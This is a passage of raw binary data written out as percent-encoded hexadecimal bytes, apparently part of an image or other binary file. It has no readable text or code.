%20AD%202C%2040%2006%2090%20A6%204A%20B6%2042%202E%20F4%2038%2063%20B3%20F0%200F%20FF%20FF%20FF%20FF%20C2%2077%2022%2009%2013%20B5%20F1%209B%20DF%2049%202E%2092%20A1%20A3%207F%20F0%20DE%20B1%206A%2081%207B%20A4%2067%2097%2019%2009%20F0%200F%20FF%20FF%20FF%20FF%20BB%2022%20BB%20ED%20D9%2004%20EC%2041%208E%206D%20A4%20DA%20BC%2038%203F%20EE%200C%208D%200A%20FD%2031%2037%2013%2052%20C5%20EC%20F0%200F%20FF%20FF%20FF%20FF%2010%20BA%2091%20C0%2085%20F6%2043%207C%2065%2000%2036%2002%209B%2097%209F%20C5%20E2%20E1%20EA%2079%208D%2082%20D8%205A%2034%20C2%2070%200F%20FF%20FF%20FF%20FE%20DE%2092%20DC%20BE%20F4%20E1%2078%203B%2015%20FF%2081%20FA%20C1%2053%204F%20B4%20DA%205C%20CB%2034%2060%207A%2007%2043%2086%203B%2030%200F%20FF%20FF%20FF%20FC%200C%20DA%200A%209C%2066%205D%2037%2090%20D4%207F%207C%20F2%203D%2058%2067%2006%2003%204A%2028%2087%201F%2033%20F2%2079%2071%2090%2090%200F%20FF%20FF%20FF%20FB%20E2%2003%20EA%20CB%2011%2049%2083%205E%2017%203E%2035%2094%2066%20B8%20ED%2001%20F7%2094%2051%200D%2031%2076%201B%203A%20D3%20AE%20CF%20FF%20FF%20F0%200F%20FE%202B%20F6%203A%2027%202D%2063%2088%204D%20D2%209D%209C%20F6%20BA%208D%2025%209C%20F8%20F6%20DB%2095%20DB%2013%2038%208A%205C%20BC%2027%20FF%20FF%20F0%200F%20E3%2071%20FB%205B%20A1%20F9%200C%20C7%2060%209A%20C8%2057%2012%208A%20D5%20FC%20F2%206D%2012%2048%20F4%2049%20BD%20DE%20FB%20C7%2093%20B3%20FF%20FF%20F0%200F%20CD%200C%20E9%2059%202A%201D%20F7%2072%201E%20C2%202F%2049%20BE%20DA%2054%2007%200B%2015%20BF%20FD%2016%20FE%2084%2054%2068%2068%20E9%2009%20FF%20FF%20F0%200F%20B5%208A%205F%205D%20BB%2030%20F9%200B%20CC%203B%20A6%207E%2082%204B%20D6%2009%2080%20CC%2080%2005%20B2%2002%20CE%20C7%201C%20AD%2035%20EC%20FF%20FF%20F0%200F%201C%20C3%2051%2050%2009%20CE%206F%2081%20A3%2091%2031%2022%20C7%20F8%2053%201E%20DE%2037%20C0%200C%209F%2006%2072%2072%20D7%20A5%20C4%20C2%207F%20FF%20F0%200E%20D7%2078%2043%204F%20FE%206D%2010%20DC%2039%205D%208D%20AE%2068%200C%20DD%20A2%2055%2098%2060%2017%20E1%208B%209F%208A%2008%20BC%2076%203B%203F%20FF%20F0%200C%2009%201F%206D%206F%20E3%20B9%20C1%2053%2095%2048%20E0%2033%20AC%2017%2044%20B7%20C4%205C%20B0%2030%2032%20D8%20E0%20C3%20FD%2086%2081%2090%209F%20FF%20F0%200B%20FF%20B6%2015%203F%20CC%209C%20AB%2049%2055%206E%205F%2094%20A9%20CE%209F%209F%2088%20A8%2067%20A8%205E%2042%20C1%2079%20EB%2035%2023%20A1%203F%20FF%20F0%200E%201F%2071%20CD%20D8%2048%200D%2046%209A%20A5%2005%204F%204F%20B4%20A4%20D0%20F7%207D%20B7%2013%203C%20C3%20FA%202B%201C%20C8%2085%20AC%20B3%20D7%20FF%20F0%2013%2036%202C%20B4%204C%20E7%20F5%2070%20DA%20A5%20F5%2066%2070%2086%20B6%2001%2002%2024%2082%20D8%2087%2064%201B%20B9%20B2%202E%20F4%2037%209C%2043%20FF%20F0%203D%20C1%20A2%209E%20F7%2023%20FD%200E%201A%20A4%20E5%2011%2031%20D0%2081%20EB%209B%20A7%20DA%2006%20E1%203E%2039%200E%208B%20A4%2067%2098%20E6%20F9%20FF%20F0%2044%207C%203A%20D2%2011%20E9%20E5%208D%20DA%20A6%2055%20DD%2092%204E%20FC%20D8%20F9%2020%205B%20F0%204B%20C3%205D%20F2%20C1%2037%2013%205D%203A%201C%20FF%20F0%20EE%2093%2092%2007%203A%2034%20C4%20C8%209A%20A1%2054%2008%2047%20EC%207A%201D%201D%20A8%20D9%20EF%2078%2065%2050%20F6%207D%2082%20D8%2055%20CB%2032%207F%20F1%2022%20E9%205B%20E1%20CB%2046%2027%2066%20DA%20AD%2057%20EF%2060%203B%2033%20D5%20B0%203D%205C%20C6%202C%20BD%204E%207B%2090%207A%2007%204C%2079%20CB%203F%20F3%20F6%2035%2041%20CA%2079%2071%20A1%2020%201A%20B9%2053%20C6%2008%2058%2089%208C%208F%2085%2052%2031%20B7%2085%206D%2028%20EF%2033%20F2%2076%208E%2060%209F%20F4%2013%2045%207C%20BB%208F%200C%202B%20EF%20DA%209D%2059%20B1%20F3%202E%20EC%2077%20CF%2065%2044%207C%2017%203D%2039%20B2%20C1%2076%2014%20CA%20D3%20A1%2030%2001%20CD%2075%2035%2077%202E%2074%2048%203F%2095%2001%2044%208C%20E8%20A4%2043%2038%206E%2005%206E%2093%20D2%2085%20DC%200A%202B%2013%2037%207A%205C%20B3%20D8%201C%20B5%2005%209D%2002%20A5%203E%20FC%2057%2055%20FD%2076%20E2%204E%20B7%2078%208C%20BD%20E5%2022%20E9%209A%20E4%2053%20EB%20B9%20BD%20D1%200B%20C7%209C%204C%2032%209D%2094%2055%209A%20B5%2082%2006%20C2%2054%20F9%2020%205B%2064%2082%2036%20F7%2090%20C5%20F6%2034%2042%2046%20C9%20C9%200E%2084%205B%2098%2068%20E6%20F6%204A%20D4%20E7%204C%20FA%2084%206F%200A%207B%2056%2075%20BF%2040%2016%20FB%2080%2078%20EE%2024%2013%2047%207B%2062%2064%20AD%20F2%20CE%20C8%20EC%20AD%203A%2013%20E2%200F%2022%2077%201A%20F7%2011%209B%2098%2051%2024%201E%207F%20D0%2071%207F%202D%203D%20A6%203D%2072%2030%200F%20A6%20A0%20F6%2072%207D%2027%20A5%20CB%203C%202B%20F1%20EB%2039%20BA%2062%20C2%20E8%20FF%205D%20B7%20CD%203F%209F%202D%203E%20B5%20D0%2023%2045%200B%208F%20F0%20A0%20BE%207B%209F%2085%20F8%20BC%2079%20C6%2071%20F2%2030%208E%209B%201A%202E%202D%2016%2048%2003%20A1%209F%204E%20A1%209C%209C%204F%20AD%206D%2081%2067%20F1%20AE%209D%2028%20E0%20CC%200D%2086%208E%206B%208C%20F7%204E%20F2%20F8%20C3%20B3%2065%20A1%206F%20F9%203C%20CE%206B%204C%2045%2029%2010%20CA%20DB%202D%201C%2002%20B3%2039%20B2%20CE%2086%2014%20CA%20DC%2057%2035%2089%206C%2076%201E%2036%20E5%2033%2052%20F7%20F5%209A%2025%2019%206B%2065%20F5%20C1%2062%2000%20A1%20D6%2006%209D%20DC%200A%2024%20E3%2037%207A%2053%2052%209C%20DF%203B%203B%2035%209A%203D%20C8%2046%2003%20E4%2043%20B5%20DF%2030%2004%2004%20AB%202B%20FE%20BC%208B%200A%20E4%2053%20EB%20B6%204D%20D1%200B%20C8%205A%20D7%2041%20D8%2089%20C4%205B%2044%2067%2063%2019%20D7%2079%2004%2091%20CF%20E6%2016%20B9%20F1%20FC%209A%20F9%209A%203E%20C9%20C9%2001%2074%205B%2098%2067%2042%2009%2062%205E%20FE%2077%2059%206E%20A2%200D%20BC%2092%2035%20F6%20C2%206F%20C3%2020%208E%200C%20FA%20C2%206E%20EB%2042%2064%20AD%20FD%203E%20C8%20EC%20A2%207B%20FF%2037%20D4%2063%2082%205F%2022%20AB%20F4%2092%20DB%2084%2060%202F%20BF%20AD%20EE%20F3%200A%2072%203B%2012%2029%2067%20A6%20A0%20F9%2082%207D%2027%20AB%2031%20E1%20D0%2047%200C%20DB%2051%20F6%20B1%20FF%20EA%2001%2077%201F%20B0%2097%2034%203C%2075%2083%202B%2090%20C7%206F%2038%20A0%20BE%2074%206F%2085%20F8%20B0%208C%20CA%2058%20F2%20F7%2058%2042%2012%208C%20E0%2033%20FD%2022%20CF%2011%20E2%209E%2053%203C%20D8%20A9%205E%2021%2021%20CD%20AE%209D%2027%2010%20CC%200D%208E%20E2%203B%20CD%200A%2079%205F%206F%203E%20CA%2048%2049%20F9%20BA%2026%20CD%20D5%2023%20C7%2077%2051%2052%20BD%20AB%20F2%207B%204C%20C6%204D%203E%2086%2014%20CC%205B%2088%2075%2083%2020%20A9%20EE%2032%2063%2073%2014%20F4%2013%20B0%2020%208D%20F4%2069%2011%205B%205E%2090%2038%201F%2098%2062%2023%20F5%20D4%20E3%2037%206B%2041%207C%2094%20D8%20BE%20BE%203D%2097%20A8%2028%20D6%2067%20D9%200F%20BE%20F4%2016%20AF%20BB%2049%2042%20EF%208C%2020%20FF%201B%20AC%2014%2046%204D%20D1%2030%207D%2027%20F7%205E%209C%2083%2050%2048%20B7%20AE%2011%2013%2085%20E7%201C%207E%2032%20A0%2089%207F%2066%203F%2076%2071%2016%20C1%2036%2036%20F1%2074%205B%20CF%2039%20A0%2011%2054%20CA%20ED%204F%207D%2083%2025%20DD%20D9%2074%2052%20CB%2023%205E%20B1%20DF%2001%203B%2056%203B%209B%20A0%203D%209B%2052%200D%203E%20C8%206E%2094%2028%203B%2046%202A%2055%206E%2024%20D8%20B4%2088%2085%2027%205A%2028%20AD%2042%209A%2041%2083%20C9%2041%2088%20E8%20AF%2098%2059%205F%2009%2082%207C%20BC%20D7%20BC%2049%2071%20AB%204D%203D%20A7%205E%2086%20EE%20F5%20B2%2043%20AE%20B5%2066%20EB%20E2%20C4%207F%207C%207D%202D%20BF%2047%205F%2041%2084%206F%2087%2092%2013%2006%20FF%200C%2028%2075%20D0%2021%2054%20F0%2044%2064%200B%2079%2024%209D%203A%2028%2036%206E%2081%2013%2025%20E4%2096%2072%2051%2062%20D7%2010%20C8%20EB%20D8%20E2%2001%208B%20AF%203C%204F%20AB%2046%206F%2077%2017%20E8%2035%20B6%20D5%20C4%209C%205C%205D%203C%2058%20AB%20C0%201E%20DB%204C%20C9%20BD%2031%207D%203E%2079%20B0%20F2%20CE%20D9%2076%20E0%20C6%2081%2006%2022%20D3%20CF%2084%2000%200C%2076%20D6%20D3%2049%209B%2046%20A9%20BF%20D2%2058%2062%202C%2005%20DB%2005%20C3%208E%208E%2076%2072%204F%2012%2031%2070%20FD%20F1%20BA%2019%20A7%2077%20FF%20F6%2080%200A%2048%206C%2040%2070%20AC%201F%2087%20DF%201B%20A3%20E4%2049%208C%2064%20D2%20CD%203B%209F%20F1%20BF%205B%200E%2078%20EC%2013%20C4%2032%2023%20FF%20FA%20DF%20FB%20E7%2003%207F%202E%20A3%20CF%2060%2056%20C1%2039%20C6%20FE%20D6%20BF%205E%2069%2088%20E0%201A%2081%2049%208D%2036%2043%20D9%20B7%208B%20B9%20FF%20EA%2057%20E8%2022%20F8%203E%20A4%20B9%20A6%2008%20C0%203D%2094%20A2%2002%2052%2081%2043%20B4%207D%2030%202A%20C3%207E%20C9%2081%2079%2084%2003%2069%2014%20FF%20DB%20C3%20DC%206A%2077%209C%20B6%2094%2031%20FD%207F%2098%2056%20AF%2007%20DE%20C3%2064%2087%2025%20D8%206A%2065%2002%2064%207D%2034%2077%20F8%200D%20D6%207F%2098%2079%2096%20B3%2023%204A%2080%20D7%208C%20E5%2017%2047%2050%20B1%2088%2042%2065%203F%20D2%20A4%204C%20AB%20BD%2087%20A7%2039%2087%2023%20F7%20E0%2011%203F%205C%209C%204A%2088%20B8%206A%20FE%2013%2062%2045%20A2%2072%205E%2092%20DC%20E7%20BD%20C0%204A%20A6%20F7%20A8%2084%20C8%20A2%2094%2072%20B9%20E3%20DF%20DD%2091%20A7%20F3%2075%2039%2067%2005%208D%20D8%2014%2094%20AB%2024%20B3%2039%20B7%2037%2074%206F%2012%20A2%201F%205D%20CF%2072%205A%20D8%20DA%2094%20D9%208F%2088%2042%20B8%2008%2025%208F%2022%20E4%20C8%2087%20CF%20F7%20B0%20A7%209D%20DC%2019%20C2%203E%20BE%20DA%20AF%2036%2054%2071%200B%2042%201D%205A%20D6%2004%2067%206F%206E%208C%2007%20B4%2071%20EA%2047%2066%20F3%20B0%2010%208E%20A0%20E4%2053%20DE%207B%2082%2094%2002%20B1%20C1%204E%209B%2080%207B%20D5%205A%2011%20F7%2012%2006%2012%20D6%2013%2007%2032%2033%2061%2020%2069%2010%2039%20CC%20A9%203E%20C9%2093%2099%206E%20E7%20FA%2092%207D%2072%20E8%20DF%2031%208D%205B%20DC%20E2%20DB%20F1%20C6%2053%2028%20F2%2097%2048%200B%20EF%200D%20C0%204E%206A%20BF%20C2%2064%2044%20FD%2012%2023%20F2%20C7%2091%2036%202D%2056%208C%2075%2059%208A%205A%2001%20EC%20A3%20DD%20F6%206A%20C9%2067%20F8%203E%20E0%20A8%20F3%20B2%2080%2067%20A7%2067%2011%20C7%2069%20EA%2020%20ED%209B%2065%2040%20E3%203D%205C%206B%2043%20FC%2042%20AC%2044%2001%200A%203F%2023%20EC%2054%205E%20BD%201C%208A%20E8%20B8%20A2%2001%20AC%20A1%2034%20CB%20A9%2038%2059%203D%207E%2058%2085%2053%2008%2079%20FB%207A%20B6%20EE%201D%20EB%2081%20E9%20D6%20C7%204C%2085%20A7%20C2%205D%208D%20AB%20EA%20BA%20AB%20C6%2029%203F%20DF%205F%20C5%2015%2046%20E5%2048%20EF%2034%20F0%2032%209A%2023%203F%2039%206A%2034%2085%2082%206D%201B%2047%2084%20A4%20DB%204E%2025%2065%2047%2081%20A2%207F%20A6%205F%2092%205A%2080%204A%2096%2049%2076%206F%208A%20DB%2075%20C1%20DD%201B%2046%20F4%207B%2015%20B8%2073%2067%20BF%2058%2073%2065%2005%2073%207C%202F%2097%2031%204F%205B%205A%20DF%206A%20D1%207F%2001%2007%206A%2019%2014%2062%2051%20D9%2070%2067%2030%20CC%209F%2028%2000%2081%205F%2035%2025%20E5%2008%203B%20B0%20E2%208D%2066%2040%205A%2056%200A%201D%2021%209D%20F2%200B%20DF%20B6%20B7%20CC%209F%200F%2012%208E%2037%20F6%20AF%20E9%20C3%2056%209D%20E4%20C5%2087%2091%2011%202A%20E1%2011%207F%205B%20C1%20EB%20C9%20AA%20F0%20EB%20E9%2090%2092%2090%206A%20D1%208E%20DA%20E5%2098%2000%20A7%20DE%2065%2040%20D4%2026%2024%20D3%205D%20C3%20F2%205D%20DD%203E%2058%207C%20C9%20AC%203A%200E%2049%20CC%2041%20FE%20F8%20B2%2002%20CC%2002%2054%205C%201E%20B3%2093%20BD%207E%200E%2061%20A7%2048%2048%20AC%200B%2048%2089%209D%205C%2092%202C%2023%208B%200D%206C%2023%206A%2002%200D%208B%20EE%206B%20FB%2057%2056%2034%2089%2044%2085%2015%20F3%20AC%2021%2067%206E%20B6%2000%206E%20EC%2049%2057%20EB%20A3%20B9%2079%2089%2003%20B8%201B%2007%2014%20C1%20D3%20B1%20F0%2052%204B%2046%20ED%2067%20CD%20A4%20F4%20BB%20AB%2022%2004%209B%201F%2004%2043%206D%2048%2031%2039%2015%202E%20C5%20F9%2017%20D6%2079%20B8%208C%2084%2083%2010%20AB%2079%207F%20BE%20F0%207B%2059%208F%2096%20C6%201B%20F6%20D6%2049%2008%2088%200E%2083%20B2%206A%202A%204D%2084%20F5%20D3%2091%202E%209E%20E2%20E7%20C5%20B9%20B0%202F%2000%2082%2018%2098%205E%20D0%20F2%2071%20C1%20E0%2011%207F%209D%20C7%20F2%20D9%2017%20AB%206B%20E8%2076%2064%2019%205D%20B2%20F4%205A%2040%206C%208E%208F%20B1%2081%20C7%202D%20FF%2052%2059%201F%208C%20BC%20DF%20DD%2020%20E4%2073%20F6%205D%20C8%20A9%2028%2037%2021%2017%20C5%2048%2016%2007%2043%2068%20A7%20D2%20CF%2012%20C2%2069%20E4%2016%2047%20CF%20A0%20CA%209A%200F%2089%20A9%203E%2089%20FB%20D0%20BD%20AF%20EC%2042%20BD%20D3%20B5%206F%20CB%2012%2078%201D%20B8%205E%206E%20C6%2067%20AE%203E%2021%2060%2070%20B1%2062%20C3%20E7%206C%203F%20C2%20C4%20E8%204E%2084%20A0%2026%20FA%2098%2099%2005%2007%20B9%20AB%2037%20D4%208C%20C3%20BC%2023%20B8%20A3%2043%206D%2008%2099%209B%202A%2039%20D2%2003%2080%2066%2076%205C%20EC%20E7%20B0%207A%201A%20C6%20C5%20F5%20F3%200E%20B0%2083%208F%20D7%2064%2093%20AC%208D%20B5%2065%2039%20FD%20EE%20E9%20F3%2094%209B%20F9%2068%20BB%2081%2057%203A%2040%2098%208B%203A%2030%2034%2064%20E8%20F2%208E%20F9%2070%2051%203F%20E9%2037%20D4%2095%203D%20DC%20E4%2022%202E%2009%2056%20C1%20F5%201D%2088%20DD%2049%20DB%2069%20ED%20D9%20DB%208F%2087%2016%2041%2089%203C%207A%20C0%20D4%203F%20C5%2097%20A7%20FA%2034%205D%20B9%2087%2063%200A%20AF%20CC%20EA%202B%2022%20AE%2081%20A7%20E1%20DB%20B1%20A9%2067%2072%20D1%206A%20C5%209B%202A%2061%2047%209F%20B4%2053%2020%201B%209E%20C4%209C%2061%2035%209A%20A0%206A%205B%2070%20BA%20B2%20DC%2020%202C%2081%200C%202D%2012%202A%201D%201A%2074%2040%20BB%20B3%2073%204F%2007%2058%20A8%2039%2052%206F%20F3%200B%20D4%20EA%20B0%20B3%2059%200E%2092%2096%2053%20A8%207A%20FD%20E3%20A1%20DB%20AB%20C9%20DB%2087%207E%2088%209D%2008%2066%20F2%2046%20BC%205D%2047%20A0%2008%20F8%2057%202A%2099%2088%205F%208C%20DA%20CB%20C9%203C%209A%2078%20D9%203C%2081%2029%20AC%2098%20D2%203C%20FD%20E5%2087%2010%206B%2070%2086%20D1%2060%20B0%2006%206C%20D1%20EA%20EE%20C7%2050%20CA%2002%2038%2065%2087%20FB%2036%2005%209A%20FD%20AC%20A2%20DD%204B%209A%2064%203C%20D2%20DF%2008%202E%20E2%204D%2009%2098%2011%2017%205A%202A%2022%2072%2041%2063%20FB%208C%20A4%2060%2018%2081%20F4%2042%2078%2022%20BA%2015%2061%2043%2006%2047%204A%200E%20EF%20A4%204F%20E9%20FE%20EC%202D%20C9%204B%206B%2077%208B%206B%2029%20F1%2077%20A7%2008%203E%20FC%20E7%207B%2037%20BA%2093%20CD%202D%2078%20E3%20E9%2063%20E4%2047%2037%2070%2034%20E2%2026%2078%20BF%2079%2029%2010%20C0%2019%20F4%20ED%2038%20A2%20FC%2054%207A%2052%2030%2083%2012%20D9%20B5%20F9%2036%2043%20D0%20D6%2028%208D%207D%20CF%20B6%2040%2084%206E%2081%200F%20EF%20B9%207F%20D1%20F9%20BE%2072%205A%2069%2038%20CC%20AB%208E%20F8%20DA%2004%201C%201D%2081%2079%209E%200B%206D%20D5%2004%206F%2001%207E%20F7%2004%20EB%2090%2020%208F%2017%209C%20EE%2083%208B%2043%200D%208D%2077%20B1%2064%2076%2003%20F7%20D6%2030%207D%2034%204D%20F9%2024%2055%208E%20BE%20FD%203C%2062%20F6%2058%20F8%2071%20D1%20A3%204A%2052%20C4%20C0%2078%20E0%2075%2010%208D%2017%2021%20F9%20E3%208B%204F%2039%2087%2060%20EF%20FE%20D4%20D2%2094%2079%209B%201A%2061%205D%200C%209A%205A%20A8%206B%2046%206F%207F%2036%205F%203D%20B9%20C9%20D2%20BC%20F4%2059%2079%206E%2094%2072%201E%2050%2002%2057%205E%20E7%2034%2040%20C3%201D%2055%2097%20EB%20CA%20B7%2008%2063%20A1%2016%2081%204E%2084%208E%2064%209A%209A%2067%2045%202F%203C%20D7%202B%20CD%2040%2007%20D1%2042%2022%2087%207E%2038%20C9%204C%20F0%2028%207A%2082%20EF%200C%20B3%20A0%20FD%2064%20E7%20D3%20A6%20C2%20C3%2012%2075%20B1%20D2%2012%20A9%20A1%2068%2008%205B%2067%206A%20F2%203D%2096%202D%2077%2018%206C%208A%20DA%2046%20F7%209C%20AE%2079%2016%2040%205C%20A0%203A%2038%20DB%2024%2012%204B%20DA%20AC%203D%201C%201C%20C9%2039%2032%206B%2098%2051%20A1%2039%20AC%20A7%20DA%205B%2070%2078%20E7%20BD%2035%20D1%2068%20C7%20AF%2093%2096%2000%20B7%20C7%20E1%2082%20AC%2069%20D9%20D8%2080%2030%2034%20F9%2048%20AC%203D%2081%2058%2048%2044%2028%2020%20DD%2037%206E%2074%2092%20ED%2067%2040%20A9%2051%20FE%2083%20A0%202C%207A%20B6%20B4%2084%2086%20FF%208F%209F%201D%207D%20BB%2098%207D%2047%207C%20F7%20AF%20A9%2045%20C2%2013%2086%20C6%2025%2022%2069%20B5%205C%20FC%20F9%2028%207B%2032%209A%2086%20F6%20F0%207F%2067%2051%20B1%2024%2099%2047%2039%2072%2027%2003%2027%203F%206C%207B%20C4%20D0%2023%207D%20EB%201E%2085%204A%207A%2075%20BC%2098%208A%20DA%20D0%2060%206F%203E%2012%2042%208D%20A7%20FD%2072%2095%202B%20A1%2098%20B2%2081%2026%2099%20A7%204F%20AD%2004%2030%20D2%20D5%206B%2033%2024%2007%20FE%20EA%201A%204F%201F%2006%209D%20DB%206E%20C8%2020%2011%202A%20D5%20A9%202A%20FE%208A%20EB%20FA%20FC%2021%206F%2035%208E%204E%2006%2045%2008%2088%20B7%20E0%2014%204B%20DB%20EE%20CE%20F0%20C8%2080%2012%2067%20A8%202D%20AA%2014%202D%20BA%2014%20EA%2058%200A%2013%20AB%203E%209C%20D3%20ED%20E3%20F5%20EE%20EE%2083%20C8%2027%2069%2098%203C%2024%206E%202E%20FF%20C7%20A3%203C%2078%202B%20D7%20A0%200B%2026%204B%205C%201B%2029%2039%20D4%20D7%205C%2038%20CC%2004%20C4%2044%20F9%20BC%2062%200C%205C%2053%20B7%2005%20A4%207F%20A0%20A8%2086%209F%20A9%2093%203F%20F9%20E1%2068%2056%2029%20F5%208E%2046%2009%2046%205E%2036%2016%2037%2076%2074%2006%20AB%20EC%20A9%2036%20F2%20FB%20C7%2030%20D9%20B6%20E2%20F7%2023%20A7%206F%20EE%202D%200F%2044%209E%200B%2083%20FE%200F%2064%202A%206B%2021%2082%2021%2027%20E2%20B1%20D7%20B5%209A%200A%2068%2072%2091%204E%2080%204E%2002%20AC%20B9%203F%20D3%2079%20E6%2076%20D3%2018%20C4%2003%2011%2027%20BB%20A9%20EC%207B%20BD%20B3%20CE%208C%2088%2084%205B%2003%201C%208A%20C3%2072%20DF%2073%201A%20B7%208F%20D7%2085%201C%20D1%2020%2005%20AD%206E%2005%20BB%20E3%2008%20AE%203B%2031%2018%2089%20B2%20CA%20FD%20D7%2059%2098%20D7%20C2%202D%201E%2056%2035%20BA%2098%20D0%2043%2065%20B2%201D%20BF%20E4%20A5%2023%200C%2088%2028%20FD%20A3%2058%208D%20C6%20EC%2016%2062%2064%2042%205E%20FE%2008%207B%20B5%20A3%20C1%209C%209A%20DD%2058%20F8%2004%208B%20C8%201F%20C7%20BD%20F5%2097%20DC%2076%2064%20B5%205E%20E0%20B0%2043%20CB%20AB%2006%20FB%2052%2015%20FC%2099%201C%20B4%207C%2057%20FA%2015%204D%201F%20E7%20C1%20AF%20CF%20A0%2084%2014%20F0%2046%2081%2007%2095%2054%205E%208F%2079%20B8%20B0%20E2%2018%2047%2024%20E7%20FD%20D7%2096%2093%2048%201B%20CD%2075%20B7%20C0%207C%2027%20A7%2029%20CE%2037%2018%20EA%20DD%20E0%20F5%2047%204C%20E6%2034%200D%208E%204F%203F%2061%20E6%2040%2010%2088%20F2%20E8%207C%2039%20B5%2014%2083%20A8%2093%20B3%2032%20BE%2073%2051%20AD%202A%2050%20C9%2015%2072%2062%2051%2087%20FB%203D%207E%2026%2005%20D1%2067%20DE%20FD%201E%2037%2029%20AC%201D%20B8%2026%20CD%20E6%20F7%2075%2073%2092%20A5%205A%201B%20C1%20CF%20BA%20FB%201B%205C%20F3%20F0%2099%203D%20B1%20F4%209D%2013%208C%2065%20A3%2042%20AC%2023%20D4%209F%20A2%2074%203A%2011%2015%201C%20EA%20B5%2043%20D8%2062%2070%209A%2070%20C0%204A%2069%20EE%20C5%2098%200C%20E6%20C9%20D9%2063%2004%20B5%207A%20A3%20B9%208F%20F7%202F%2096%204B%203B%20B5%20A7%2032%2085%2079%209C%20B7%2099%20FB%202E%203F%206B%200C%20C4%2034%2047%20E2%2050%202C%2085%2018%20E7%2095%201A%20B9%2014%2070%2002%20B0%20F3%20F9%20C8%2094%20B9%20CA%20F5%2034%2057%2090%20EE%2018%20A5%209E%2008%20E2%2037%2087%2073%20DB%205F%20A2%20F5%20C6%2040%20F5%20BA%2095%20D7%2030%201A%2091%201C%200E%207D%20F7%208E%2062%2065%2087%2048%20F9%2023%203E%20B4%204D%20EE%205B%2083%2072%2029%2080%204F%203A%2064%20B1%2069%2014%209A%20D4%2092%2090%203A%20C3%20A6%2013%2084%2010%20D3%20AB%2014%2072%207D%200F%20F5%20D4%2087%2060%20C5%2041%2078%202B%20AC%207F%2066%2093%2016%208D%201F%20B7%20FA%2016%20DA%20C0%205A%202C%20BB%203C%20CE%2039%205C%20B0%20D7%202B%2025%2090%2014%2046%20F2%201E%2035%207D%2037%20A9%2023%203E%2010%20D8%20D0%20E1%20D0%2090%201B%20D0%2002%2028%20DB%20B7%2089%20C7%2073%204F%2047%208E%2012%20A8%20A4%20F8%2036%20F0%206B%20CD%2085%2039%208C%20D2%2047%2062%2021%20F9%20E1%20AC%2081%20F7%20C6%206F%20FB%20B2%20A9%2018%20D1%2096%20E2%208E%2098%20CD%20D5%205E%20A7%200C%205D%20FF%2009%20A0%2075%2094%2077%205F%20E9%2037%2072%200E%2032%20BA%20EA%2003%20A3%20BF%20F1%200A%20AD%20DD%204C%2050%205A%20E4%20DD%2068%208D%2054%20A1%2096%20D0%20FE%20EC%203F%2024%20D7%2039%2040%202F%20D1%201F%2013%205E%209A%205B%2019%202C%2097%20ED%20EA%20A0%2095%206B%205F%2042%2056%2015%2036%20F5%2046%20AA%20F2%204E%207C%2043%209E%20B6%2012%208F%2060%2060%205B%20A1%20BD%2042%20FB%2059%20BD%20B7%20E3%20C0%20CA%20BE%20CD%2030%204E%207B%2051%20CD%20C0%207D%2070%20BA%201F%20ED%203B%2079%204C%2081%20DA%20F1%2030%20B0%20C8%20B2%2085%2066%2018%205E%2090%2018%2029%20BE%202A%209C%2035%20CF%2065%2030%205C%20B4%207F%2025%200E%208B%2020%2039%2090%2035%2062%20FC%2002%2073%20D9%2099%207D%209E%20CD%203B%203F%2052%20EF%20DC%2074%201D%20AA%20CB%209C%206E%2015%208F%204A%209E%2096%20A5%208C%20F9%20F0%205C%205F%2085%201A%207B%20FB%2034%204E%20EF%2004%20E2%2075%20C9%20D6%2046%203F%2096%2087%20C8%202A%2029%2056%20BD%20D4%2066%206A%20D2%20E0%20A4%20CA%206E%2018%20D3%204F%2075%20C3%2031%20F0%209E%20F2%2021%208F%2037%2094%207E%2041%2063%2057%204A%20D3%20AF%20AB%20AD%204A%2090%2097%2011%200A%2006%202E%20A7%2063%2013%202D%2048%2066%2024%20B8%208C%206E%20D2%2010%208D%202E%202F%2009%2073%20FD%2002%20B2%207A%2049%2028%20D9%2021%207A%20EE%20D2%20DD%20E4%2013%207C%20AE%20D8%20C5%20EA%2097%2011%20B6%2096%20E3%2004%2007%202E%20E1%20A5%20A6%20ED%2034%2011%20FA%208B%202B%20E5%20BD%205D%20BD%202A%203C%201A%2008%20C6%203D%2012%20A4%2006%2024%2032%20D2%20DC%2000%20D0%2058%20F7%20E1%20FC%205C%2034%2030%2041%209E%202C%20F2%20E8%20B8%2024%2005%2050%2019%20BB%2053%20C3%20EE%2023%2045%20AA%20B7%20F1%20A6%204A%201A%200B%20FE%201F%2046%2063%20CA%2013%204B%2087%208F%207C%2053%207A%206A%204E%208C%2067%20E5%204F%20C4%2009%2049%20B9%20C5%20AD%206C%20B2%2083%20EC%2023%20E3%20C3%20E9%20FD%20CE%2071%2019%20BB%2028%2069%2073%2066%203B%2045%201B%200B%2064%20F6%20A3%20C5%206F%20B7%20FF%2064%2014%20B4%2035%2027%208A%20F9%20C3%20AC%2029%20B9%20CC%20F8%20A5%202D%20C4%2009%20F7%200D%2028%2011%2090%2065%20B8%20E8%2016%207A%20A9%20A5%203F%2003%20E1%2027%20D6%2087%209D%20F8%20C2%2074%20B9%2036%2074%2014%20A2%2076%20B5%20A0%2037%20FE%2002%20E1%20AF%20DC%205F%2004%209E%204F%20D1%202A%20B4%2025%20D6%20F9%20CB%20E3%2090%20F3%2054%200D%207B%2026%2095%209B%2087%20D6%20BB%2020%2084%203F%2083%20E3%201A%205C%2027%208B%204E%20E7%20F5%2067%209D%20BA%2087%20A4%2040%2074%20B8%2029%205E%2068%204E%2015%2018%20B0%20D4%2058%20D3%2090%2090%20BE%20F7%209F%2079%20CD%20BB%2044%204C%2097%2094%2040%2005%201C%20B8%2005%2023%2026%20F0%20D6%2083%2085%204D%200F%207C%20C5%20B1%2071%20E8%20AD%2046%20A1%2021%206C%2063%204E%2034%20B4%2098%2066%20F7%20F0%20E7%2068%2015%20D7%209F%20F5%20B8%20A2%2019%2040%20F9%2075%2061%20E6%203A%2024%209B%201A%202D%20A5%206A%20B3%20F3%203B%2018%2065%2086%209F%20FF%2002%2010%2019%2022%201C%2024%2088%20F7%20E4%2016%20AF%202F%207E%2075%2025%201C%20D1%2093%20A7%20E9%20AB%2064%20BD%202A%209C%201D%20D8%20C7%2014%20F0%20D0%2016%20EF%2038%202F%20EB%20D6%2066%20FD%2003%20D7%20D0%20B1%20E1%2015%2025%20B5%20CA%201C%2059%2020%202E%20A9%203F%2085%20EA%20E6%2024%205E%2032%20D6%206E%2000%2020%2051%20CC%2060%2031%208B%20A0%2065%2099%2093%209E%2092%2033%20A5%20B4%2004%20AB%20CB%2045%20A8%2062%20AF%2